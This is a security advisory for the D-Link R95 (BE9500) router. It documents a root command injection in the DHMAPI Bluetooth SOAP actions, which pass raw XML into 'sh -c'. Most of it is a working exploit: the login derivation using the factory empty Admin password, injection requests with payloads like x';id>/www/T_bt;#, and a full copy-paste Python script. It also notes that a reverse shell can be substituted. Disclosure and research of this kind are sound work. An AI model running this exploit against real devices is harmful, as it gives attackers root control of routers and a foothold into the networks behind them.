

# D-Link R95 (BE9500)

- Vendor: D-Link
- Product: R95 (BE9500) Wi-Fi 7 smart router
- Firmware Version: R95A1_FW101B06 (OpenWrt 1.01 B06, ipq53xx_32, arm_cortex-a7)
- Vulnerability Type: OS Command Injection (CWE-78)

## Overview

`/bin/ssi` (the DHMAPI SOAP handler, dispatched by lighttpd 1.4.71 via `cgi.assign`, running as **root**) concatenates the **entire raw inner XML** of a Bluetooth-type DHMAPI action into a `sh -c` command line with no escaping. A single `'` in any child element closes the single-quoted region and injects arbitrary commands executed as root. Reproducible request (post-login, parameter-name-agnostic):

`POST /DHMAPI/` (`API-ACTION: SetTriggerBluetoothScan`, body containing `<A>x';id >/www/T_bt;#</A>`)

A subsequent `GET /T_bt` returns `uid=0(root) gid=0(root)`. The sink lives in the action-family wrapper layer; the parameter name does not participate in the decision.

## Vulnerability Details

Root cause in `/bin/ssi` at request-parse time:

```c
snprintf(buf, ..., "sh -c \"%s '%s'\"", helper_name, inner_xml);
system(buf);
```

`helper_name` is selected by `<API-ACTION>`; `inner_xml` comes straight from the request body — no quoting, no allow-list, no length limit. The 8 injectable actions (static mapping + full sweep agree):

| `<API-ACTION>` | helper |
|---|---|
| `GetBluetoothAdapterSettings` | `dhm_adapter` |
| `GetBluetoothBloodPressure` | `dhm_bpmresult` |
| `GetBluetoothDeviceList` | `dhm_pairlist` |
| `GetBluetoothScanDeviceList` | `dhm_scanlist` |
| `SetBluetoothAdapterSettings` | `dhm_set_adapter` |
| `SetBluetoothUnpairDevice` | `dhm_unpair` |
| `SetTriggerBluetoothScan` | `dhm_scan` |
| `SetBluetoothPairDevice` | `dhm_pair` |

Parameter-name agnosticism (measured): `<A>x';id>/www/T1;#</A>`, `<Foo>x';id>/www/T2;#</Foo>`, `<Bar>x';id>/www/T3;#</Bar>` all hit; empty body / bare text do not.

Authentication boundary (negative control): removing the `Cookie` header yields HTTP **401** and no marker ⇒ the sink is reached only after login. The factory account `Admin` has an **empty password** (login returns `result=success` immediately); this is a default-credential precondition, not a separate authentication bypass.

## Proof of Concept

> Every step below was executed in the local qemu-arm chroot emulation. All requests and the script are copy-pasteable.
> Only non-destructive commands (`id`, `echo`, `uname`, `sleep`) are used; no reboot / restore / upgrade is invoked.

### Step 0 — Environment

- Firmware: `R95A1_FW101B06` (rootfs from the official image)
- Emulation: host binfmt_misc `qemu-arm` + `chroot`, **no qemu-system**

```bash
R=/path/to/R95/rootfs          # extracted rootfs of R95A1_FW101B06
setsid chroot $R /usr/sbin/lighttpd -D -f /etc/lighttpd/lighttpd.conf
# listens on 192.168.10.3:443; lighttpd 1.4.71 hands /DHMAPI to /bin/ssi (runs as root)
```

Let `BASE = https://192.168.10.3` (replace with the router's LAN IP). **HTTPS is mandatory**: a login over the plaintext port yields no usable session and every subsequent request returns 401.

### Step 1 — First `Login`: request the challenge (no password needed)

Body is `<Action>request</Action>`; `API-AUTH` uses the public key hard-coded in the firmware JS, `withoutloginkey`:

```python
ts  = str(int(time.time() * 1000) % 2_000_000_000_000)   # floor(Date.now()) % 2e12
sig = hmac.new(b"withoutloginkey", (ts + "Login").encode(),
               hashlib.sha256).hexdigest().upper()
API_AUTH = sig + " " + ts
```

Full request:

```http
POST /DHMAPI/ HTTP/1.1
Host: 192.168.10.3
API-ACTION: Login
API-AUTH: <sig above> <ts above>
Content-Type: text/xml; charset=utf-8
User-Agent: Mozilla/5.0
Referer: https://192.168.10.3/info/Login.html

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <Login>
      <Action>request</Action>
      <Username>Admin</Username>
      <Password></Password>
      <LoginPassword></LoginPassword>
      <Captcha></Captcha>
    </Login>
  </soap:Body>
</soap:Envelope>
```

> `User-Agent` and `Referer` are not optional: without them the server answers 403 / redirects to the login page. Every request below carries them.

Response (measured sample; all three values are fresh random values each time):

```xml
<LoginResponse>
  <LoginResult>OK</LoginResult>
  <Challenge>NJjmM0CDDfDJn1sqzUqQKENiTLEzAOcGbrV1t4uI</Challenge>
  <Cookie>MjWxKZe0zhYuWgqNnu0rmehN</Cookie>
  <PublicKey>xf0HfbKOV3NMk4t7EIn87B3zr2q1CuFXV2nnOec2</PublicKey>
  <Crypto>SHA256</Crypto>
  <BackOff>0</BackOff>
  <LockRemaining>0</LockRemaining>
  <BackOffRemaining>0</BackOffRemaining>
</LoginResponse>
```

This build returns **no** `<SaltHash>`, so no PBKDF2 step is involved.

### Step 2 — Derive `privkey` and `LoginPassword`

Straight transcription of the two `Login.js` formulas; both results are **uppercase hex**:

```python
privkey       = hmac.new((PublicKey + password).encode(), Challenge.encode(),
                         hashlib.sha256).hexdigest().upper()
LoginPassword = hmac.new(privkey.encode(), Challenge.encode(),
                         hashlib.sha256).hexdigest().upper()
```

On a factory device `password` is the empty string (`Admin`, blank password). Two common mistakes:

1. `hmac.new(key, msg)` takes **key first, message second** — the reverse of JS `HmacSHA256(msg, key)`;
2. `.upper()` is required — lowercase produces a 200 login followed by 401 on every action.

### Step 3 — Second `Login`: submit the answer

```http
POST /DHMAPI/ HTTP/1.1
Host: 192.168.10.3
API-ACTION: Login
API-AUTH: <UPPER(HEX(HMAC-SHA256(privkey, ts+"Login")))> <ts>
Cookie: uid=<Cookie from Step 1>
Content-Type: text/xml; charset=utf-8
User-Agent: Mozilla/5.0
Referer: https://192.168.10.3/info/Login.html

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <Login>
      <Action>login</Action>
      <Username>Admin</Username>
      <LoginPassword><LoginPassword from Step 2></LoginPassword>
      <Captcha></Captcha>
    </Login>
  </soap:Body>
</soap:Envelope>
```

Expected: `<LoginResult>success</LoginResult>`. From here on every action request sends `Cookie: uid=<Step 1 Cookie>` and computes `API-AUTH` with `privkey`.

### Step 4 — The injection request

`/bin/ssi` wraps Bluetooth actions as:

```c
snprintf(buf, ..., "sh -c \"%s '%s'\"", helper_name, inner_xml);
system(buf);
```

`helper_name` is selected by `API-ACTION` (this action → `dhm_scan`); `inner_xml` is **the entire raw inner text of the action element** — not escaped, not parsed. A single `'` anywhere in it closes the single-quoted region:

```http
POST /DHMAPI/ HTTP/1.1
Host: 192.168.10.3
API-ACTION: SetTriggerBluetoothScan
API-AUTH: <UPPER(HEX(HMAC-SHA256(privkey, ts+"SetTriggerBluetoothScan")))> <ts>
Cookie: uid=<Cookie from Step 1>
Content-Type: text/xml; charset=utf-8
User-Agent: Mozilla/5.0
Referer: https://192.168.10.3/info/Login.html

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
               xmlns:xsd="http://www.w3.org/2001/XMLSchema"
               xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <SetTriggerBluetoothScan>
      <A>x';id>/www/T_bt;#</A>
    </SetTriggerBluetoothScan>
  </soap:Body>
</soap:Envelope>
```

What the server executes:

```sh
sh -c "dhm_scan '<A>x';id>/www/T_bt;#</A>'"
```

| Fragment | Role |
|---|---|
| `dhm_scan '<A>x'` | original helper call, cut at the `'` after `x` |
| `;` | unconditional sequencing — the next command runs regardless |
| `id>/www/T_bt` | injected command; output written into the web root as root |
| `#</A>'` | `#` comments out the remainder, avoiding a trailing-quote syntax error |

### Step 5 — Why HTTP 500 still means success

None of the eight `dhm_*` helper scripts exist in this build (`/usr/sbin/dhm_scan` and siblings are absent). When the helper call fails, `/bin/ssi` returns **HTTP 500**:

```text
HTTP/1.1 500 Internal Server Error
```

**This does not mean the injection failed.** `;` is unconditional (not `&&`): `dhm_scan` fails with `not found`, and `id>/www/T_bt` still runs and lands. The marker file, not the status code, is the criterion.

### Step 6 — Retrieve the command output

```bash
curl -sk https://192.168.10.3/T_bt
```

Expected:

```text
uid=0(root) gid=0(root)
```

`/www` is writable and is lighttpd's docroot, so any command output can be collected this way; replacing `id` with a reverse shell works equally well.

### Step 7 — Independent proof: this is execution, not an echo

`[5]` is a separate `GET /T_bt` reading back a file. To rule out "the server simply echoed the request", three mutually independent pieces of evidence follow; any one of them settles it.

**Evidence A — the injection response body does not contain `uid=0`.** The measured response is a 365-byte XHTML error page:

```text
HTTP 500 | body contains 'uid=0'? False | body len 365
body head: <?xml version="1.0" encoding="iso-8859-1"?> <!DOCTYPE html ...> <title>500 ...</title>
```

`uid=0(root)` exists only in the static file fetched by the **separate GET**, and that file was created by the shell with `>`.

**Evidence B — make the shell compute a value that never appears in the request.**

```xml
<A>x';echo $((6*7))-$(uname -r)>/www/P2;#</A>
```

```text
GET /P2 -> 42-6.8.0-138-generic
```

`$((6*7))` is an arithmetic expression and `$(uname -r)` is command substitution; neither result occurs in the request string ⇒ it cannot be an echo.

**Evidence C — read the injected process's own `/proc/<pid>/cmdline` from the host while it is alive.**

First make the injected command stall for 8 seconds:

```xml
<A>x';sleep 8;: #</A>
```

Three seconds after sending it, scan the emulation host:

```bash
for f in /proc/[0-9]*/cmdline; do
  tr '\0' ' ' < "$f" | grep -q dhm_ && { echo "$f"; tr '\0' ' ' < "$f"; echo; }
done
```

Measured output:

```text
pid 3055904
/usr/libexec/qemu-binfmt/arm-binfmt-P | /bin/sh | sh | -c | dhm_scan '<A>x';sleep 8;: #</A>' |
```

Stripping the qemu-arm prefix leaves the exact line handed to the shell:

```sh
sh -c "dhm_scan '<A>x';sleep 8;: #</A>'"
```

That is the root cause: **the raw inner XML of the action element is spliced wholesale inside the single quotes of `sh -c`**, independent of parameter name or semantics.

> **Do not use the in-process `/proc/$$/cmdline` trick.** It is unreliable on this build: `$$` is expanded by the outer shell, and by the time `cat`/`tr` runs that PID is usually gone (measured: `No such file or directory`, or a 0-byte file). Even when it survives, if `cat` is the last command busybox ash's exec optimisation makes it read `cat`'s own cmdline. The `sleep` + host-side scan above is reliable.

### Step 8 — Negative controls

| Variant | Result | Meaning |
|---|---|---|
| Same injection request **without `Cookie`** | HTTP **401**, no marker | post-authentication |
| **Step 1 Cookie only** + `withoutloginkey` signature | HTTP **401** | challenge session is not trusted |
| Step 3 Cookie + **signature computed for another action** | HTTP **401** | signature bound to the action name |
| `<A>` replaced by `<Foo>` / `<Bar>` | HTTP 500, **hit** | parameter-name agnostic |
| Empty body / bare text | no hit | must enter through an action element |

> ⚠ The first row requires a request with **no cookie at all**: the login response itself carries `Set-Cookie: uid=...`, which `requests.Session` replays automatically — removing only the `Cookie` header yields a **false positive** (500 + marker). Use a bare `requests.post` or `s.cookies.clear()` (see Implementation notes below).

### Full EXP

Save as `r95_bt_poc.py` and run `python3 r95_bt_poc.py <router-ip>` (requires `requests`):

```python
#!/usr/bin/env python3
# D-Link R95 (BE9500) DHMAPI Bluetooth action-family command injection
# usage: python3 r95_bt_poc.py 192.168.10.3
import hashlib, hmac, re, sys, time
import requests, urllib3
urllib3.disable_warnings()

HOST = sys.argv[1] if len(sys.argv) > 1 else "192.168.10.3"
BASE = "https://%s" % HOST          # HTTPS is mandatory
s = requests.Session()
privkey = cookie = None

def api_auth(key, action, ts=None):
    u = str(int(time.time() * 1000) % 2_000_000_000_000) if ts is None else str(ts)
    sig = hmac.new(key.encode(), (u + action).encode(), hashlib.sha256).hexdigest().upper()
    return sig + " " + u

def post(action, inner, key=None, ck=None):
    body = ('<?xml version="1.0" encoding="utf-8"?>'
            '<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" '
            'xmlns:xsd="http://www.w3.org/2001/XMLSchema" '
            'xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body>'
            '<%s>%s</%s></soap:Body></soap:Envelope>' % (action, inner, action))
    h = {"API-ACTION": action,
         "API-AUTH": api_auth(key or privkey or "withoutloginkey", action),
         "Content-Type": "text/xml; charset=utf-8",
         "User-Agent": "Mozilla/5.0",
         "Referer": BASE + "/info/Login.html"}
    k = ck if ck is not None else cookie      # ck="" must really drop the cookie
    if k:
        h["Cookie"] = "uid=" + k
    if ck == "":                              # negative control: bypass the Session cookie jar too
        return requests.post(BASE + "/DHMAPI/", data=body.encode(), headers=h,
                             timeout=25, verify=False)
    return s.post(BASE + "/DHMAPI/", data=body.encode(), headers=h,
                  timeout=25, verify=False)

def login(password=""):
    global cookie, privkey
    # --- first Login: request the challenge (fixed public key) ---
    r = post("Login",
             "<Action>request</Action><Username>Admin</Username>"
             "<Password>%s</Password><Captcha></Captcha>"
             "<LoginPassword></LoginPassword>" % password,
             key="withoutloginkey")
    g = lambda t: re.search("<%s>(.*?)</%s>" % (t, t), r.text).group(1)
    challenge, pub, cookie = g("Challenge"), g("PublicKey"), g("Cookie")
    print("[1] Challenge=%s\n    Cookie=%s\n    PublicKey=%s" % (challenge, cookie, pub))
    # --- derive privkey / LoginPassword (uppercase hex) ---
    n = hmac.new((pub + password).encode(), challenge.encode(),
                 hashlib.sha256).hexdigest().upper()
    l = hmac.new(n.encode(), challenge.encode(),
                 hashlib.sha256).hexdigest().upper()
    # --- second Login: submit the answer ---
    r2 = post("Login",
              "<Action>login</Action><Username>Admin</Username>"
              "<LoginPassword>%s</LoginPassword><Captcha></Captcha>" % l,
              key=n, ck=cookie)
    print("[2] %s" % re.search(r"<LoginResult>(.*?)</LoginResult>", r2.text).group(1))
    privkey = n
    return cookie, privkey

def marker(name):
    return s.get(BASE + "/" + name, verify=False, timeout=15).text.strip()

if __name__ == "__main__":
    login("")                                   # factory Admin, empty password
    print("[3] privkey=%s" % privkey)

    # --- injection: Bluetooth action family, parameter name irrelevant ---
    r = post("SetTriggerBluetoothScan", "<A>x';id>/www/T_bt;#</A>")
    print("[4] SetTriggerBluetoothScan -> HTTP %s (expect 500)" % r.status_code)
    print("[5] GET /T_bt -> %s" % marker("T_bt"))

    # --- name agnosticism: use <Foo> ---
    r = post("SetTriggerBluetoothScan", "<Foo>x';id>/www/T_foo;#</Foo>")
    print("[6] <Foo> -> HTTP %s, GET /T_foo -> %s" % (r.status_code, marker("T_foo")))

    # --- negative control 1: drop the Cookie -> 401, no marker ---
    r = post("SetTriggerBluetoothScan", "<A>x';id>/www/T_neg;#</A>", ck="")
    print("[7] no Cookie -> HTTP %s (expect 401)" % r.status_code)

    # --- negative control 2: empty body -> no hit ---
    r = post("SetTriggerBluetoothScan", "")
    print("[8] empty body -> HTTP %s" % r.status_code)
```

> Implementation notes:
>
> - **The server already sets `Set-Cookie: uid=<Cookie>; Path=/; Secure; HttpOnly` in the first `Login` response**, and `requests.Session` stores and replays it automatically. A "no-cookie" control that still uses the `Session` therefore remains authenticated even with the `Cookie` header omitted — it returns 500 and writes the marker (a false positive). Use a bare `requests.post` (the `ck == ""` branch above) or `s.cookies.clear()`; both measured **401 with no marker**.
> - The test must be `ck is not None`. Writing `k = ck or cookie` makes an empty string fall back to the session cookie, producing the same false positive.
> - Every request needs `User-Agent` / `Referer`, otherwise 403.
> - Run with `python3 -u`; if the run is killed by a timeout, recover results from the `/www` markers.



### Emulation notes

1. **HTTPS is mandatory**: a plaintext-port login yields no usable session; everything after it is 401.
2. **Init rewrites the lighttpd config**: `https.conf` can be zeroed and `SG1_redirect` removed. Confirm the `192.168.10.3:443` socket block before starting.
3. **Mesh daemons crash-loop**: `mesh_agent` / `repacd_monitor` / `EasyMeshDaemon` repeatedly crash under qemu-arm, driving load to 800+ and exhausting memory → scanning scripts need crash self-healing (a `pkill -9` pass when the process count exceeds a threshold), otherwise sshd becomes unreachable after the first round and everything looks like a silent false negative.
4. **Write only marker files under `/www`**; do not delete or modify system paths.

## Impact

With an authenticated session (the factory-default `Admin` account has an empty password), an attacker executes arbitrary commands as root: read/modify configuration and firmware partitions, install persistent backdoors, enrol the device in a botnet, and pivot into the internal network. Both Bluetooth read and write actions are affected.

## Reproduction Result

Verified end-to-end under qemu-arm chroot emulation. Following the walkthrough above with `<A>x';id>/www/T_bt;#</A>`:

```text
[4] SetTriggerBluetoothScan -> HTTP 500 (expected)
[5] GET /T_bt -> uid=0(root) gid=0(root) groups=0(root)
[6] <Foo> -> HTTP 500, GET /T_foo -> uid=0(root) gid=0(root) groups=0(root)
[7] no Cookie -> HTTP 401 (expected)
[8] empty body -> HTTP 500, no marker
```

Markers written during the same run: `/www/T_bt`, `/www/T_foo` (both root-owned, 39 bytes); the negative-control marker **`/www/T_neg` does not exist**. The Step 7 evidence files are `/www/P1` (`uid=0(root)...`) and `/www/P2` (`42-6.8.0-138-generic`). The host-side `id` reports `uid=1000(iotsec-zone)`, contrasting with `uid=0(root)` inside the file — the command ran inside the root-owned web server process.
The exact command lines handed to the shell are quoted in Step 7.

The `dhm_*` helpers do not exist in this build, so the helper call fails and the request returns HTTP 500. But `;` is unconditional sequencing: the injected command runs in the same `sh -c` and the marker still lands ⇒ **the status code is unrelated to whether the injection worked; the marker is the criterion**. Only non-destructive commands (`id`/`echo`/`uname`/`sleep`) were used; no reboot/restore/upgrade was invoked. Local emulation only; no vendor cloud service was contacted.
